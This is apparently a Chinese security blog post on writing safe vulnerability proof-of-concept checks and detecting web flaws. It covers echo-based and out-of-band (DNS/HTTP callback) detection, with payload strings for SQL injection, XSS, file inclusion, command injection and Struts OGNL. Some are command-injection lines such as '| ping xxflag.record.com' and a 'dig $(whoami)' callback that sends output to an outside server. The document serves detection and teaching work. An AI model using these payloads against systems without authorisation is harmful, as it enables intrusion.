原文 by RickGray 

## 0x00 简介
  
现在有一个现象就是一旦有危害较高的漏洞的验证 PoC 或者利用 EXP 被公布出来，就会有一大群饥渴难忍的帽子们去刷洞，对于一个路人甲的我来说，看得有点眼红。漏洞从披露到研究员分析验证，再到 PoC 编写，进而到大规模扫描检测，在这环环相扣的漏洞应急生命周期中，我认为最关键的部分应该算是 PoC编写 和 漏洞检测 这两个部分了：
  

  

  
* PoC编写 - 复现漏洞环境，将漏洞复现流程代码化的过程
  
* 漏洞检测 - 使用编写好的 PoC 去验证测试目标是否存在着漏洞，需要注意的是在这个过程（或者说是在编写 PoC 的时候）需要做到安全、有效和无害，尽可能或者避免扫描过程对目标主机产生不可恢复的影响
  

  
首先来说说 PoC 编写。编写 PoC 在我看来是安全研究员或者漏洞分析者日常最基础的工作，编写者把漏洞验证分析的过程通过代码描述下来，根据不同类型的漏洞编写相应的 PoC。根据常年编写 PoC 积累下来的经验，个人认为在编写 PoC 时应遵循几个准侧，如下：
  

  
* 随机性
  
* 确定性
  
* 通用型
  

  
可能你会觉得我太学术了？那么我就一点一点地把他们讲清楚。
  

  
## 0x01 PoC 编写准则 & 示例
  
### i. 随机性
  
PoC 中所涉及的关键变量或数据应该具有随机性，切勿使用固定的变量值生成 Payload，能够随机生成的尽量随机生成（如：上传文件的文件名，webshell 密码，Alert 的字符串，MD5 值），下面来看几个例子（我可真没打广告，例子大都使用的 pocsuite PoC 框架）：
  

  
上图所示的代码是 WordPress 中某个主题导致的任意文件上传漏洞的验证代码关键部分，可以看到上面使用了kstest.php 作为每一次测试使用的上传文件名，很明显这里是用的固定的文件名，违背了上面所提到的随机性准侧。这里再多啰嗦一句，我并没有说在 PoC 中使用固定的变量或者数据有什么不对，而是觉得将能够随机的数据随机化能够降低在扫描检测的过程所承担的一些风险。
  
根据随机性准侧可修改代码如下：
  

  
更改后上传文件的文件名每次都为随机生成的 6 位字符，个人认为在一定程度上降低了扫描检测交互数据被追踪的可能性。
  

  
### ii. 确定性
  
PoC 中能通过测试返回的内容找到唯一确定的标识来说明该漏洞是否存在，并且这个标识需要有针对性，切勿使用过于模糊的条件去判断（如：HTTP 请求返回状态，固定的页面可控内容）。同样的，下面通过实例来说明一下：
  

  
上图所示的代码是某 Web 应用一个 UNION 型 SQL 注入的漏洞验证代码，代码中直接通过拼接 `-1' union select 1,md5(1) --` 来进行注入，因该漏洞有数据回显，所以如果测试注入成功页面上会打印出 md5(1) 的值`c4ca4238a0b923820dcc509a6f75849b`，显然的这个 PoC 看起来并没有什么问题，但是结合准则第一条随机性，我觉得这里应该使用 md5(rand_num) 作为标识确定更好，因为随机化后，准确率更高：
  

  
这里也不是坑你们，万一某个站点不存在漏洞，但页面中就是有个 `c4ca4238a0b923820dcc509a6f75849b`，你们觉得呢？
  
讲到这里，再说说一个 Python requests 库使用者可能会忽视的一个问题。有时候，我们在获取到一个请求返回对象时，会像如下代码那样做一个前置判断：
  

  
可能有人会说了，Python 中条件判断非空即为真，但是这里真的是这么处理的么？并不是，经过实战遇到的坑和后来测试发现，Response 对象的条件判断是通过 HTTP 返回状态码来进行判断的，当状态码范围在 [400, 600] 之间时，条件判断会返回 False。
  

  
我为什么要提一下这个点呢，那是因为有时候我们测试漏洞或者将 Payload 打过去时，目标可能会因为后端处理逻辑出错而返回 500，但是这个时候其实页面中已经有漏洞存在的标识出现，如果这之前你用刚才说的方法提前对 Response 对象进行了一个条件判断，那么这一次就会导致漏报。
  

  
### iii. 通用性
  
PoC 中所使用的 Payload 或包含的检测代码应兼顾各个环境或平台，能够构造出通用的 Payload 就不要使用单一目标的检测代码，切勿只考虑漏洞复现的环境（如：文件包含中路径形式，命令执行中执行的命令）。下图是 WordPress 中某个插件导致的任意文件下载漏洞：
  

  
上面验证代码逻辑简单的说就是，通过任意文件下载漏洞去读取 /etc/passwd 文件的内容，并判断返回的文件内容是否包含关键的字符串或者标识。明显的，这个 Payload 只适用于 *nix 环境的情况，在 Windows 平台上并不适用。更好的做法应该是根据漏洞应用的环境找到一个必然能够体现漏洞存在的标识，这里，我们可以取 WordPress 配置文件 wp-config.php 来进行判断（当然，下图最终的判断方式可能不怎么严谨）：
  

  
这么一改，Payload 就同时兼顾了多个平台环境，变成通用的了。
  
大大小小漏洞的 PoC 编写经验让我总结出这三点准则。
  

  
## 0x02 漏洞检测方法 & 示例
  
说了这么多，到底如何去归纳漏洞检测的方法呢？在我看来，根据 Web 漏洞的类型特点和表现形式，可以分为两大类：直接判断 和 间接判断。
  

  
* 直接判断：通过发送带有 Payload 的请求，能够从返回的内容中直接匹配相应状态进行判断
  
* 间接判断：无法通过返回的内容直接判断，需借助其他工具间接的反应漏洞触发与否
  

  
多说无益，还是直接上例子来体现一下吧（下列所示 Payloads 不完全通用）。
  
1. 直接判断
  
### i. SQLi（回显）
  
对于有回显的 SQL 注入，检测方法比较固定，这里遵循 “随机性” 和 “确定性” 两点即可。
  
Error Based SQL Injection
  
```
  
payload: "... updatexml(1,concat(":",rand_str1,rand_str2),1) ..."
  
condition: (rand_str1 + rand_str2) in response.content
  
```
  
针对报错注入来说，利用随机性进行 Payload 构造可以比较稳定和准确地识别出漏洞，固定字符串会因一些小概率事件造成误报。不知道大家是否明白上面两行代码的意思，简单的说就是 Payload 中包含一个可预测结果的随机数据，验证时只需要验证这个可预测结果是否存在就行了。
  
UNION SQL Injection
  
```
  
payload1: "... union select md5(rand_num) ..."
  
condition1: md5(rand_num) in response.content
  
payload2: "... union select concat(rand_str1, rand_str2) ..."
  
condition2: (rand_str1 + rand_str2) in response.content
  
```
  
md5(rand_num) 这个很好理解，MySQL 中自带函数，当 Payload 执行成功时，因具有回显所以在页面上定有md5(rand_num) 的哈希值，因 Payload 具有随机性，所以误报率较低。
  
### ii. XSS（回显）
  
```
  
payload: "... var _=rand_str1+rand_str2;confirm(_); ..."
  
condition: (rand_str1 + rand_str2) in response.content
  
```
  
因没怎么深入研究过 XSS 这个东西，所以大家就意会一下示例代码的意思吧。
  
### iii. Local File Inclusion/Arbitrary File Download（回显）
  
本地文件包含和任意文件下载的最大区别在哪？本地文件包含不仅能够获取文件内容还可以动态包含脚本文件执行代码，而任意文件下载只能获取文件内容无法执行代码。
  
所以呢，在针对此类漏洞进行检测时，在进行文件包含/下载测试的时候需要找一个相对 Web 应用固定的文件作为测试向量：
  
```
  
payload: "... ?file=../../../fixed_file ..."
  
condition: (content_flag_in_fixed_file) in response.content
  
```
例如 WordPress 应用路径下 ./wp-config.php 文件是应用默认必须的配置文件，而文件中的特殊字符串标识require_once(ABSPATH . 'wp-settings.php'); 通常是不会去改动它的（当然也可以是其他的特征字符串），扫描文件下载时只需要去尝试下载 ./wp-config.php 文件，并检测其中的内容是否含有特征字符串即可判断是否存在漏洞了。
  
### iv. Remote Code/Command Execution（回显）
  
远程代码/命令执行都是执行，对该类漏洞要进行无害扫描，通常的做法是打印随机字符串，或者运行一下特征函数，然后检查页面返回是否存在特征标识来确认漏洞与否。
  
```
  
payload: "... echo md5(rand_num); ..."
  
condition: (content_flag) in response.content
  
```
当然了，要执行什么样的特征命令这还需要结合特定的漏洞环境来决定。
  
### v. SSTI/ELI（回显）
  
模板注入和表达式注入相对于传统的 SQLi 和 XSS 来说，应该算得上是在开框架化、整体化的过程中产生的问题，当模板内容可控时各种传统的 Web 漏洞也就出现了，XSS、命令执行都能够通过模板注入或着表达式注入做到。曾经风靡一时的 Struts2 漏洞我觉得都能归到此类漏洞中。通常检测只需构造相应模板语言对应的表达式即可，存在注入表达式会得以执行并返回内容：
  
```
  
payload1: "... param=%(rand_num1 + rand_num2) ..."
  
condition1: (rand_num1 + rand_num2) in response.content
  
payload2: "... param=%(rand_num1 * rand_num2) ..."
  
condition2: (rand_num1 * rand_num2) in response.content
  
payload3: "... #response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(rand_str1+rand_str2),#response.flush(),#response.close() .."
  
condition3: (rand_str1+ rand_str2) in response.content
  
```
  
### vi. 文件哈希
  
有时候漏洞只与单个文件有关，例如 Flash、JavaScript 等文件造成的漏洞，这个时候就可以利用文件哈希来直接判断是否存在漏洞。扫描检测时，首先需要给定路径下载对应的文件然后计算哈希与统计的具有漏洞的所有文件哈希进行比对，匹配成功则说明漏洞存在：
  
```
  
payload: "http://vuln.com/vuln_swf_file.swf"
  
condition: hash(vul_swf_file.swf) == hash_recorded
  
```
  
以上就是针对 Web 漏洞检测方法中的 “直接判断” 进行了示例说明，因 Web 漏洞类型繁多且环境复杂，这里不可能对其进行一一举例，所举的例子都是为了更好地说明 “直接判断” 这种检测方法。:)
  

  
2. 间接判断
  
在很久很久之前，我遇到上述这些无回显漏洞环境时是一脸茫然的，一开始懂得了用回连进行判断，后来有了 python -m SimpleHTTPServer 作为简单实时的 HTTP Server 作为回连监控，再后来有了《Data Retrieval over DNS in SQL Injection Attacks》这篇 Paper，虽然文章说的技术点是通过 DNS 查询来获取 SQL 盲注的数据，但是 "Data Retrieval over DNS" 这种技术已经可以应用到大多数无法回显的漏洞上了，进而出现了一些公开的平台供安全研究爱好者们使用，如：乌云的 cloudeye 和 Bugscan 的 DNSLog，当然还有我重写的 CEYE.IO 平台（可以记录dns解析、apache访问log）。
  
"Data Retrieval over DNS" 技术原理其实很简单，首先需要有一个可以配置的域名，比如：test.com，然后通过代理商设置域名 test.com 的 nameserver 为自己的服务器 ceye.io，然后在服务器 ceye.io 上配置好 DNS Server，这样以来所有 test.com 及其子域名的查询都会到 服务器 ceye.io 上，这时就能够实时地监控域名查询请求了。
  
就算机器不能连外网，只要可以解析dns（配置了内网 local dns），就可以通过dns查询递归出命令执行的回显！说了那么多，还是不知道怎么用么？那就直接看示例吧（所以后端平台都用 CEYE.IO 作为例子）。
  
### i. XSS（无回显）
  
XSS 盲打在安全测试的时候是比较常用的，“看到框就想 X” 也是每位 XSSer 的信仰：
  
```
  
payload: "... > ..."
  
condition: {http://record.com/?blindssrf LOG} in HTTP requests LOGs
  
```
  
### iv. RCE（无回显）命令执行/命令注入
  
这个得好好说一下，我相信很多同学都懂得在命令执行无法回显的时候借用类似 python -m SimpleHTTPServer 这样的环境，采用回连的检测机制来实时监控访问日志。&#42;nix 系统环境下一般是使用 curl 命令或者wget 命令，而 windows 系统环境就没有这么方便的命令去直接访问一个链接，我之前常用的是 ftp 命令和 PowerShell 中的文件下载来访问日志服务器。现在，有了一个比较通用的做法同时兼顾 *nix 和 windows 平台，那就是 ping 命令，当 ping 一个域名时会对其进行一个递归 DNS 查询的过程，这个时候就能在后端获取到 DNS 的查询请求，当命令真正被执行且平台收到回显时就能说明漏洞确实存在。
  
```
  
payload: "... | ping xxflag.record.com ..."
  
condition: {xxflag.record.com LOG} in DNS queries LOGs
  
```
  

  
通过这几个 "间接判断" 的示例，相信大家也大概了解了在漏洞无回显的情况下如何进行扫描和检测了。更多的无回显 Payloads 可以通过 http://ceye.io/payloads 进行查看。也可以直接 dig @x.x.x.x  $(whoami) 这样如果在 dns解析服务器上有收到请求，则表示命令已经执行了。
  

  
## 0x03 应急实战举例
  
原理和例子说了这么多，也该上上实际的扫描检测案例了。
  
### Java 反序列化（通用性举例，ftp/ping）
  
首先说说 15 年底爆发的 Java 反序列化漏洞吧，这个漏洞应该算得上是 15 年 Web 漏洞之最了。记得当时应急进行扫描的时候，WebLogic 回显 PoC 并没有搞定，对其进行扫描检测的时候使用了回连的方式进行判断，又因为待测目标包含 *nix 和 windows 环境，所以是写了两个不同的 Payloads 对不同的系统环境进行检测，当时扫描代码的 Payloads 生成部分为：
  

  
### i. *nix
  

  
当时真实的日志内容：
  

  
可以看到我在构造 Payload 的时候通过链接参数来唯一识别每一次测试的 IP 地址和端口，这样在检查访问日志的时候就能确定该条记录是来自于哪一个测试目标（因为入口 IP 和出口 IP 可能不一致），同时在进行批量扫描的时候也能方便进行目标确认和日志处理。
  
### ii. windows
  

  
当时真实的日志内容：
  

  
因为 windows 上的 ftp 命令无法带类似参数一样的标志，所以通过观察 FTP Server 连接日志上不是很好确认当时测试的目标，因为入口 IP 和出口 IP 有时不一致。
  
上面的这些 PoC 和日志截图都是去年在应急时真实留下来的，回想当时再结合目前的一些知识，发现使用通用的 Payloadping xxxxx.record.com 并使用 "Data Retrieval over DNS" 技术来收集信息日志能够更为通用方便地进行检测和扫描。所以，最近更换了一下 Payload 结合 CEYE.IO 平台又对 WebLogic 反序列化漏洞的影响情况又进行了一次摸底：
  

  
这里添加一个随机字符串作为一个子域名的一部分是为了防止多次检测时本地 DNS 缓存引起的问题（系统一般会缓存 DNS 记录，同一个域名第一次通过网络解析得到地址后，第二次通常会直接使用本地缓存而不会再去发起查询请求）。
  
相应平台的记录为（数量略多）：
  


  
## Reference
[漏洞检测的那些事儿](http://blog.knownsec.com/2016/06/how-to-scan-and-check-vulnerabilities/)
  
